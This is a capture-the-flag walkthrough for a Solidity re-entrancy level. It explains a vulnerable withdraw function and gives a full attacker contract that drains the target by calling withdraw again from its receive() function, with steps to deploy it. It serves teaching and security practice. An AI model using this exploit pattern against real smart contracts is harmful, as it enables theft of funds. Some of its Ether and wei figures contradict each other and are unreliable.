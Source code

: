 # Re-entrancy

The goal of this level is to steal all the funds from the contract.

Things that might help:

* Untrusted contracts can execute code where you least expect it.
* Fallback methods
* Throw/revert bubbling

## Code Breakdown

```solidity
using SafeMath for uint256;
mapping(address => uint) public balances;
```
The contract has one public mapping `balances` to keep tracking the balance of each address that has donated.

```solidity
function donate(address _to) public payable {
    balances[_to] = balances[_to].add(msg.value);
  }
```
`donate` allows users to donate funds to a specific address by calling the function and specifying the recipient's address as an argument. The function uses the SafeMath library to add the value of the donation to the recipient's balance.

```solidity
function balanceOf(address _who) public view returns (uint balance) {
    return balances[_who];
  }
```

`balanceOf` allows users to view the balance of a specific address and takes that address as an argument.

```solidity
function withdraw(uint _amount) public {
    if(balances[msg.sender] >= _amount) {
      (bool result,) = msg.sender.call{value:_amount}(""); // At this point, the caller's code is executed, and can call withdraw again
      if(result) {
        _amount;
      }
      balances[msg.sender] -= _amount;
    }
  }
```

`withdraw` allows users to withdraw their funds from the contract by calling the function and specifying the amount they want to withdraw. The function checks if the user has sufficient funds and, if so, calls the recipient's contract to transfer the funds. It then subtracts the withdrawn amount from the user's balance.

This contract is vulnerable to a reentrancy attack.

***A reentrancy attack occurs when a contract calls another contract in a way that allows the called contract to call back into the original contract before the original contract has finished executing. This can potentially allow an attacker to repeatedly withdraw funds from the contract before the contract has a chance to update the user's balance, allowing the attacker to steal funds from the contract.***

the `withdraw` function calls the `msg.sender` address, which may be an attacker-controlled contract that is designed to call back into the withdraw function in an attempt to repeatedly withdraw funds.

## Game Completion

Let's create a smart contract to exploit this and drain `Reentrance` contract funds:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

interface Reentrance {
    function withdraw(uint _amount) external;
    function donate(address _to) external payable; 
}

contract ReentranceHack {
    Reentrance rt;
    uint256 amount = 100000000000000; // 0.0001 ethers

    constructor(address _instance) public {
        // initialize with instance address
        rt = Reentrance(_instance);
    }

    receive() external payable{
        rt.withdraw(amount); // when we receive our initial amount we will call the withdraw() again and receive ether again since our balance is not updated yet
    }

    function hack() public payable{
        rt.donate{value: amount}(address(this)); // send 0.0001 ethers to the game contract's
        rt.withdraw(amount); // withdraw the same amount to trigger the receive() function
    }
}
```

Let's deploy our contract on [Remix IDE](https://remix.ethereum.org), and execute the `hack()` with a value of 10000000000000000 wei or 0.0001 ethers (same as the game instance's current balance).
After the execution, we will end up with ***0.0011 eth***:
0.0001 eth deposited earlier + 0.001 eth already in game instance balance.

Let's see how our transaction went in the block explorer:

<img src="img/block-explorer.png">

we can see the `donate()` call followed by ***11*** `withdraw()` functions.

`Note: we might have to raise the Gas Limit on Metamask a bit if there are a lot of withdraw() calls so the transaction won't revert because of insufficient gas`

There are multiple ways to prevent reentrancy attacks